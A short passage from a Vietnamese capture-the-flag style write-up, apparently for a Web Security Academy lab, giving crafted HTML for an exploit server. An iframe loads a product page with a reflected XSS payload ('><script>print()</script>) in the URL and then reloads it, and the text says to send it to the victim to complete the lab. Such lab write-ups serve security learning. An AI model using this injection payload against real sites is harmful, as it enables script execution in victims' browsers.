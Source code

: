 Craft đoạn HTML

```html
<script>
    function reload(object) {
        if (/\/product?/.exec(object.src))
        object.src="https://0a4f00a7041269f6c0ed021e00e0005d.web-security-academy.net/"
    }
</script>
<iframe src="https://0a4f00a7041269f6c0ed021e00e0005d.web-security-academy.net/product?productId=1&a='><script>print()</script>" onload="reload(this);" height="100%"
    width="100%">
</iframe>
```

Copy paste và store vào Exploit server rồi gửi cho victim để hoàn thành lab

![Untitled](wu_media/Untitled%2012.png)

---
